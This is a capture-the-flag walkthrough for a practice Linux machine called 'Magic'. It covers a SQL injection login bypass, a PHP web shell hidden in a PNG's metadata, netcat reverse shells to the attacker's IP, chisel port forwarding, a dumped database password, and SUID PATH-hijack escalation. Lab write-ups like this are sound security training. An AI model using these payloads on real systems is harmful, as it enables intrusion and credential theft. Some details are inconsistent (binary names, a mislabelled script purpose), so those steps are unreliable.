- Machine Name: Magic
- Difficulty: Medium
- OS Type: Linux

### Port Scanning - Service & Version Enumeration

```jsx
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQClcZO7AyXva0myXqRYz5xgxJ8ljSW1c6xX0vzHxP/Qy024qtSuDeQIRZGYsIR+kyje39aNw6HHxdz50XSBSEcauPLDWbIYLUMM+a0smh7/pRjfA+vqHxEp7e5l9H7Nbb1dzQesANxa1glKsEmKi1N8Yg0QHX0/FciFt1rdES9Y4b3I3gse2mSAfdNWn4ApnGnpy1tUbanZYdRtpvufqPWjzxUkFEnFIPrslKZoiQ+MLnp77DXfIm3PGjdhui0PBlkebTGbgo4+U44fniEweNJSkiaZW/CuKte0j/buSlBlnagzDl0meeT8EpBOPjk+F0v6Yr7heTuAZn75pO3l5RHX
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOVyH7ButfnaTRJb0CdXzeCYFPEmm6nkSUd4d52dW6XybW9XjBanHE/FM4kZ7bJKFEOaLzF1lDizNQgiffGWWLQ=
|   256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0dM4nfekm9dJWdTux9TqCyCGtW5rbmHfh/4v3NtTU1
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Magic Portfolio
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Port 80/HTTP

let’s visit port 80 http on web  browser



click on login and we are redirected to login.php



when we enters wrong credentials we get pop-up that says, “Wrong Username or password”



i tried to test SQLi by entering the `admin'` and no pop-up just redirected back to login page, this looks interesting to me, i searched for SQLi Authentication bypass payloads 

https://gist.github.com/spenkk/2cd2f7eeb9cac92dd550855e522c558f

this works - `admin' or '1'='1'#` 

and boom we got access to upload area



then i uploaded legit test.png file

```jsx
gobuster dir -u 10.10.10.185/images -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt
```



another way is to find the correct directory in website’s home page right click on image and copy-Link

so we found the upload location now we need to upload the php shell to get Command execution on machine

i tried to upload php file and off course it failed 



let’s fire-up our burpsuite and try to bypass the file upload restrictions, first we need to check what it is checking for extensions, MIME types



also as the name of machine suggest i tried changing magic bytes as well, let’s try to upload legitimate png file edit it and add the PHP payload, also let’s and rename it like 0xh3x.php.png as the magic bytes set legitimately it will work  for us

i’ll use the exiftool to inject comment 

```jsx
exiftool -comment='<?php system($_GET["cmd"]); ?>' test.png
```



```jsx
mv test.png 0xh3x.php.png
```

and then try to upload the file



let’s open image - [`http://10.10.10.185/images/uploads/0xh3x.php.png?cmd=id`](http://10.10.10.185/images/uploads/0xh3x.php.png?cmd=id)



use below reverse shell payload

```jsx
busybox nc 10.10.14.12 443 -e /bin/bash
```

we got a reverse shell connection on port 443



after gaining initial access, we started enumerating the system and found the user `theseus` 

and found database credentials in /var/www/magic/db.php5



i tried this password for theseus user, but no success, let’s connect to mysql database and then find any creds from there, sadly mysql is not installed on the target so i’ve used chisel to forward mysql port to our machine and then access it over 127.0.0.1

**On Kali**

```jsx
chisel server --reverse --port 5000
```

**On Target machine**

```jsx
./chisel_1.10.1_linux_amd64 client 10.10.14.12:5000 R:3306:127.0.0.1:3306
```

now check the server console and we got connection 



now we can access the mysql on our localhost

```jsx
mysql -h 127.0.0.1 -u theseus -piamkingtheseus
```

to list databases, use - `show databases` 



to use Magic Databse, `use Magic;`

to display all the table → `show tables;` 



let’s get data from it, using select command

```jsx
select * from login;
```



let’s use this password to `su` as theseus



grab [user.t](http://user.tt)xt from /home/theseus/user.txt



running linpeas i found SUID binary



if we look at it the users group has executable permissions on it



if we run strings on the /bin/sysinfo we found that it is running some basic commands, but the thing here is it is not passing full path to binary, let’s create free file with malicious code



it is basic code that set SUID for /bin/bash

```jsx
#!/bin/bash
busybox nc 10.10.14.12 9001 -e /bin/bash
```

save it as free, make it executable via - `chmod 777 free` 

add the /tmp in the PATH variable - `export PATH=tmp/:$PATH`, and then run `/bin/systeminfo` again and we’ll get reverse shell on port 9001

